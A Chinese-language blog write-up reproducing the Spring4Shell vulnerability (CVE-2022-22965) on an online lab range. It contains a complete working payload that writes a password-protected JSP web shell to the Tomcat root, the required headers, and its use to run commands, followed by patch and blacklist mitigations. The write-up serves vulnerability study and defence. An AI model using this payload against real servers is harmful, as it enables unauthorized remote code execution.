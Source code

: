 ```yaml
---
title: Spring core远程代码执行漏洞(CVE-2022-22965)复现
comments: true
date: 2022-04-29 18:23:41
tags: ["cve-2022-22965","Spring Core漏洞","漏洞复现"]
categories:
- 渗透测试
cover:
top_img:
description:
---
```






## 漏洞简介

springframework 是spring 里面的一个基础开源框架，主要用于javaee的企业开发。2022年3月30日，Spring框架曝出RCE 0day漏洞，攻击者通过该漏洞可远程实现对目标主机的后门文件写入和配置修改，继而通过后门文件访问获得目标主机权限。



## 漏洞成因

该漏洞是由于 Spring Core 未对传输的数据进行有效的验证。Spring MVC 框架提供参数绑定功能，允许用请求中的参数绑定控制器方法中参数对象的成员变量。这一机制使得攻击者能够通过构造恶意请求获取 AccessLogValve 对象，继而注入恶意字段值触发 pipeline 机制，从而能够在未授权的情况下远程构造恶意数据，写入任意路径下的文件，从而导致远程代码执行。



## 影响版本

Spring Framework 5.3.X < 5.3.18 

Spring Framework 5.2.X < 5.2.20



## 利用条件

- JDK 版本 >= 9

- 目标JDK9及其以上版本

- 使⽤了Spring-beans包；

- 使⽤了Spring参数绑定；

- Spring参数绑定使⽤的是⾮基本参数类型，例如⼀般的POJO即可；

  





## 漏洞复现

复现环境：这里使用vulfocus在线靶场：

### 1.连接靶场：

![image-20220429220755621](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429220755621.png)



![image-20220429220821256](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429220821256.png)





### 2.发送POC



**POC:**

```
?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bc2%7Di%20if(%22j%22.equals(request.getParameter(%22pwd%22)))%7B%20java.io.InputStream%20in%20%3D%20%25%7Bc1%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=

```

访问时抓包，在"/"后插入EXP，并在请求头中插入如下字样：

```
suffix: %>
c1: Runtime
c2: <%
DNT: 1
Content-Length: 2
```



poc原理：

```
其中，header主要变更处为：
“suffix”:"%>",
“c1”:“Runtime”,
“c2”:"<%",
“DNT”:“1”,
“Content-Type”:“application/x-www-form-urlencoded”
:主体部分，链接后接两个参数pwd和cmd，pwd验证密码，cmd为实行的命令
class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp
:上传的文件后缀
class.module.classLoader.resources.context.parent.pipeline.first.prefix=tomcatwar
：上传的文件名
class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT/
:webapps/ROOT/knan为上传的目录，此处为访问创建目录下的文件

```







数据包内容：

![image-20220429223038550](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429223038550.png)









### 3.利用





若创建通过，放包后访问`[url]/tomcatwar.jsp?pwd=j&cmd=id`即可看到id命令成功执行。

![image-20220429222443020](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429222443020.png)



![image-20220429223116723](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/img/image-20220429223116723.png)



## 利用工具

https://github.com/reznok/Spring4Shell-POC







## 修复建议

一、官方修复建议：

当前 Spring Framework 官方已发布最新版本，建议受影响的用户及时更新升级到最新版本。链接如下：

https://spring.io/blog/2022/03/31/spring-framework-rce-early-announcement

二、临时修复建议：

该临时修复建议存在一定风险，建议用户可根据业务系统特性审慎选择采用临时修复方案：

需同时按以下两个步骤进行漏洞的临时修复:

\1. 在应用中全局搜索 @InitBinder 注解，看看方法体内是否调用 dataBinder.setDisallowedFields 方法，如果发现此代码片段的引入，则在原来的黑名单中，添加 {"class.*","Class. *","*. class.*", "*.Class.*"}。(注：如果此代码片段使用较多，需要每个地方都追加)

\2. 在应用系统的项目包下新建以下全局类，并保证这个类被 Spring 加载到 (推荐在 Controller 所在的包中添加). 完成类添加后，需对项目进行重新编译打包和功能验证测试。并重新发布项目。




